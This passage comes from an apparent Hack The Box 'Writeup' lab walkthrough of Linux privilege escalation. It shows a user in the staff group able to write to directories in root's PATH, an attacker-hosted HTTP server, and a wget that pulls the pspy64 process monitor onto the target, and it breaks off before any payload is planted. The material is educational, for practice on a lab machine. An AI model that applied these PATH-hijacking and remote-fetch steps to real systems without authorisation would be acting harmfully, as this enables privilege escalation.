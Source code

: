 After logging in, `sudo -l` shows that we are unable to run sudo as jkr. Running `id` does show us something interesting though:

```console
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

The group `staff` is a non-standard group, and we are allowed to write to `usr/local/bin` and `usr/local/sbin`.

```console
jkr@writeup:~$ ls -ld /usr/local/bin /usr/local/sbin
drwx-wsr-x 2 root staff 20480 Apr 19  2019 /usr/local/bin
drwx-wsr-x 2 root staff 12288 Apr 19  2019 /usr/local/sbin
```

Both of these locations are in root's `$PATH`, so if we can find something being run by root we can add something here with the same name and it would run as root.

### PSPY64

Let's see if we can figure out what's happening on the box to see what we have to work with. Let's start by downloading the latest version of PSPY at <https://github.com/DominicBreuker/pspy>. Then we'll create a www directory and spin up a basic python server on our Kali machine.

```console
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/writeup/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then, in our other shell as jkr, run wget and download pspy to the machine.

```console
jkr@writeup:/tmp$ wget http://10.10.14.5/pspy64
--2023-03-05 16:41:34--  http://10.10.14.5/pspy64
Connecting to 10.10.14.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                 100%[=========================================================================>]   2.96M  2.88MB/s    in 1.0s    

2023-03-05 16:41:35 (2.88 MB/s) - ‘pspy64’ saved [3104768/3104768]
```

Next, we need to make it executable with `chmod +x pspy64` and run it `./pspy64`.

First off, we see `/bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1` being run, but that doesn't seem to do too much for us since we can't access the root directory. If we open a new shell and ssh in to the box again, we see a new process being run `sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new`.
